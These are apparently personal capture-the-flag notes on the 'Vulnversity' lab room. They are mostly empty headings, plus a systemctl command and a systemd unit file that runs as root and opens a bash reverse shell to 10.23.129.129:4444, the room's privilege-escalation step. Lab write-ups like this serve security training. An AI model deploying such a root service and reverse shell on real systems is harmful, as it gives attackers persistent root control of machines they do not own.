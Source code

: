 2025-06-21 16:14

Status: #CTF 

Tags:

# Vulnversity

# Reconnaissance





systemctl enable /tmp/root.service

- ``ext.txt``
```bash
[Unit]
Description=root
[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.23.129.129/4444 0>&1'
[Install]
WantedBy=multi-user.target
 
```



### References
